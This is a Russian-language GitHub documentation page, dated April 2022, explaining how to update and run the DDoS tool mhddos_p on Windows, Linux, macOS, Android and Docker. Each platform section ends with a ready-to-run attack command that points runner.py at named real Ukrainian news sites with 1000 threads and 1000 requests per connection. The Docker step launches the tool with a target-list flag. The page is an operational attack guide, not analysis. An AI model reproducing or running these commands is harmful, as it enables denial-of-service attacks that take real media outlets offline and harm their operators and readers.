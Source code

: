 
<h1 align="center">Обновление mhddos_p</h1> 
April 16, 2022

<br/>
<br/>


Проблема:

![image](https://github.com/BionecX/mhddos_p_docs/blob/main/images/ph_Onovlennya-mhddos-proxy-04-16-1.png)

Решение:

#Windows

Пункт 4: [ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/ph_Ustanovka-mhddos-proxy-napryamu-na-vash-komp-03-27.md) 

## Linux

1. Открыть Терминал

2. Перейти в нужную папку:

    `cd ~/mhddos_p`

3. обновить версию программы:

    `sudo git pull origin main`

4. скачать новые зависимости:

    `python3 -m pip install -r requirements.txt`

5. Можно запускать атаку:

    `python3 runner.py http://iz.com.ua https://uapress.info https://www.rupor.info -t 1000 --rpc 1000 --http-methods GET STRESS --debug`


Более подробно(пункт 2): [ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/ph_mhddos-proxy-install-on-Linux-with-terminal-03-31.md)

## MacOs

1. Нажимаем на папку с mhddos_p и нажимаем правую кнопку мыши, там в списке выбираем "Службы" и выбираем "Новый терминал в папке"

Откроется окно в терминале

![image](https://github.com/BionecX/mhddos_p_docs/blob/main/images/ph_Onovlennya-mhddos-proxy-04-16-2.png)

2. обновить версию программы:

    `git pull origin main`

3. скачать новые зависимости:

    `python3 -m pip install -r requirements.txt`

4. Можно запускать атаку:

    `python3 runner.py http://iz.com.ua https://uapress.info https://www.rupor.info -t 1000 --rpc 1000 --http-methods GET STRESS --debug`


Более подробно (пункт 4): [ссылка](https://telegra.ph/Vstanovlennya-mhddos-proxy-napryamu-na-vash-Mac-04-0333)


## Android

1. Открыть Termux через иконку на главном экране

2. Зайти в папку с mhddos_p – нужно ввести:

    `cd storage/shared/mhddos_p`

3. Обновить скрипт:

    `git pull origin main`

4. Скачать новые зависимости:

    `pip install -r termux_requirements.txt`

5. Можно запускать атаку:

    `python runner.py http://iz.com.ua https://uapress.info https://www.rupor.info -t 1000 --rpc 1000 --http-methods GET STRESS --debug`

Более подробно(пункт 2): [ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/installation_mhddos-proxy-for-Android-with-Termux-03-31.md)

## Docker

Просто перезапустить команду:

для Linux добавить sudo в начало

    docker run -it --rm --pull always ghcr.io/BionecX/mhddos_p --table --itarmy

